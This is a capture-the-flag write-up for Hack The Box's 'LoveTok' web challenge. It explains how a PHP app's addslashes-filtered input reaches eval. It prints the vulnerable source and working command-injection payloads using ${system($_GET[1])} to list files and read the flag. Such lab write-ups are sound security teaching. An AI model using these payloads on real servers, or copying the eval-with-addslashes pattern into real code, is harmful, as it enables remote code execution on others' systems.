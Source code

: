 ```yaml
---
ref: https://www.hackthebox.com/achievement/challenge/1780054/198
category: web
---
```


# [LoveTok](https://www.hackthebox.com/achievement/challenge/1780054/198)
One of the Challenges of HTB called "LoveTok" (Category: Web).
We were given an IP+Port to a Host and also a full "fake-deployment" of it in a zip-file.

Since this is a Web-Challenge I just assumed that a website would be running on that port, I was right:

![First looks](./imgs/page.png)

The only form of interaction we currently have is this button on the bottom, let's click it:

![After click](./imgs/format.png)

The page itself didn't change but we can see that we now have a GET-Param in the URL. After fiddelingwith it a little bit and also from the name itself I quickly figured that you can define a Date-Format String for the Output below. After some professional googlin' I also figured out that the backend is most-likely a PHP-Server given how it behaves on certain format-strings (note: this could've been figured out in 0 seconds by just simply having a look at the provided zip-file first :().

Anyhow, since this is now our only form of input it virtually screams "Please hack here" - let's have a look at the provided files:

![Provided Stuff](./imgs/zipcontents.png)

Two of the files are related to our time-formatting: `TimeController.php` and `TimeModel.php`. I have added the entierty of them below and annotated them using comments:

- `TimeController.php`
    
    ```php
    <?php
    class TimeController
    {
        // Gets called from the Laravel Router whenever I visit the main webpage. 
        public function index($router)
        {
            // if no format string is provided it defaults to "r", which is why we didn't see any change on the page after the button-click
            // otherwise, our input simply gets stored into this variable
            $format = isset($_GET['format']) ? $_GET['format'] : 'r';

            // the code then creates this modal, so we want to provide a format that exploits the creation of this somehow
            $time = new TimeModel($format);
            return $router->view('index', ['time' => $time->getTime()]);
        }
    }   
    ?>
    ```

- `TimeModel.php`
    
    ```php
    <?php
    class TimeModel
    {
        public function __construct($format)
        {
            // addslashes is a built-in php function that primitivly escapes some characters
            // this is supposed to sanatize our input
            $this->format = addslashes($format);

            // some random date generation
            [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
            $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
        }

        public function getTime()
        {
            // eval! so definetly some injection-potential here
            // as we can see the eval statement is supposed to take our inputs and store the result of the built-in date function into the $time variable, whose contents we ultimately get to see on the webpage
            eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
            return isset($time) ? $time : 'Something went terribly wrong';
        }
    }
    ?>
    ```

If we wouldn't have the `addslashes` we could very easily just inject anything by simply closing the `date`-call ourselves, appending any call we want and just commenting out the rest. But since this isn't possible (since directly providing `"` gets escaped to `\"`) we have to get a bit more creative.

Doing a quick google-search immediately provides multiple articles as to why `addslashes` does not properly sanatize input and how it can be exploited anyway! [The article I used here](https://swordandcircuitboard.com/php-addslashes-command-injection-bypass/).

To summarize: Although some characters get escaped, we can still run PHP-String interpolation and with that have access to **any variable and function that is currently in scope**. The crafts a concise command that allows us to do any command-injection that we want!

1. Add a second URL-GET-Param that contains our command-injection payload. e.g.: `http://...&1=<anything>`. Note: I thought that the article used a number as the key so that we do not have to quote it to access the value, which would've been a problem since we cannot quote anything. But we can "exploit" PHP's String-Interpolation to bypass the need of quotes (which is very cursed!)

```php
<?php
$c = array("foo" => 3);
var_dump($c[foo]); // does not work, as expected
var_dump("{$c[foo]}"); // does not work, as expected
var_dump("$c[foo]"); // WORKS, only $c[] is interpolated and the rests (anything passed inside of []) is interpreted as a string! WTF!
?>
```

2. Reference the GET-Param in the original variable (which gets passed to the `eval`-function) and wrap it in a `system`-call to run arbitrary code: `system($_GET[1])`

With that we can simply take the example from the article, although I do know from the provided files that there is a flag-file on the server which looks like `/flag*` (with some random characters at the end), so we don't even have to run `ls` to find it, but let's have a look anyway:

1. List files: `?format=${system($_GET[1])}&1=ls%20/`
    ![Flag spotted](./imgs/ls.png)
2. Read file content: `?format=${system($_GET[1])}&1=cat%20/flag*`
    ![Flag gotted](./imgs/flag.png)

And there we go!
